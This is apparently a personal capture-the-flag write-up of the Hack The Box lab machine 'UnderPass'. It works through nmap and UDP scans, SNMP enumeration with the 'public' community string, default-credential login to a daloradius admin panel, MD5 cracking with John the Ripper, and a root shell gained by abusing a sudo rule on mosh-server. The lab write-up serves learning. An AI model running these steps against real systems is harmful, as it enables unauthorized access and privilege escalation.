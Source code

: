# UnderPass
### SNMP disclosure, Default authentication vulnerability and Mosh

- `10.10.11.48`
- Linux
- Easy

It's been a minute for me, lets take a crack at it! 

Start with [NMap](/blog/ctfs/tools/nmap) of course.

    nmap -sC -sV -vv 10.10.11.48

Looks like we get responses from the `SSH` port `22` and `HTTP` on port `80`.

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Visiting the index page for the web server at `http://10.10.11.48/` yields the default apache page

We can try to brute force web directories with and virtual hosts with `gobuster`.

However, it doesn't seem like there's any common routes on this web server... 

The machine doesn't seem to host any `DNS` server. let's do a full port scan.

    nmap -sS -p- -vv underpass.htb

Same thing.

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


Hmm... what about `UDP`?

    nmap -sU -vv underpass.htb

Oh! looks like we have `SNMP` related things?

    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response

Okay, down the [SNMP](/blog/ctfs/notes/snmp) rabbit hole.

found a useful command called [snmpwalk](/blog/ctfs/tools/snmpwalk) which dumps public `SNMP` records. 

Apparently version `3` of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version `2c` and below uses something like a password to protect the data called a `community string` 

Don't ask me why `2c` is called `2c` instead of `2`. I didn't look into it.

For publicly available data, usually that password is something like `public`. According to
some older sources, it looks like `private` is also a common default community string. 

Running this command will dump all the public records using the `2c` version of the protocol

    snmpwalk -v 2c -c public underpass.htb

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas


We also found what looks like the name of a service. `daloradius`

Doing a quick search online, [that's exactly what it is.](https://github.com/lirantal/daloradius.git) 

Found `/daloradius/app/users/login.php` which will allow me to log into the application. 

Maybe from here we can gather the version of the webserver and look for any CVEs.

Tried all the default credentials in the README but no luck...

_~about 2 hours pass~_

Okay, so i was messing around some more and this is why it's important to double check things. 

`daloradius/app/users/login.php` 

is for regular users. 

`daloradius/app/operators/login.php` 

is for admins. 

![daloradius-admin](/static/media/ctf/htb-daloradius.png)

Anyway... It's important to reset the default password after installing one of these dashboards. Otherwise _anyone_ could just read the GitHub documentation and log in. 

I found one user named `svcMosh` in the users list. The word `Mosh` leads me to believe that the program `Mosh` is involved somehow, but we'll have to see.

When we go the users page, an `MD5` hash for our user is seemingly right here in the UI.

`412DD4...` is the first 6 characters of the hash. You can see for yourself what the rest of the chracters are. We're going to save this into `md5sum.txt`

    john --wordlist=./rockyou.txt --format=Raw-MD5 ./md5sum.txt

[John the Ripper](https://www.openwall.com/john/) will make short work of this hash with the `rockyou.txt` wordlist.

Okay... Using those creds with `SSH` doesnt seem to do anything. not with `steve` or `svcmosh`

maybe this is just something that will come in handy later?

...`version 2.2 beta / 03 Jul 2024` so maybe no SQLi like we see on `exploitdb`...

_~about 2 more hours pass~_

I WAS BEING DUMB. CASE MATTERS

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. 

![dalradius-user-shell](/static/media/ctf/htb-daloradius-user.png)

Yay!

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`

    Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User svcMosh may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/bin/mosh-server

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky.

the program `mosh` works by running `mosh-client` to interact with `SSH`, and then running a command through `SSH` to start `mosh-server` on the remote machine.

the `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well.

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path.

    mosh --server="sudo /usr/bin/mosh-server" localhost
    
drops us into a root shell.

![dalradius-root-shell](/static/media/ctf/htb-daloradius-root.png)

Nice! 

I would say this machine is very easy. I was able to figure it out without any help except for the `SNMP` foothold, but that was minimal. 

_~ Happy Hacking_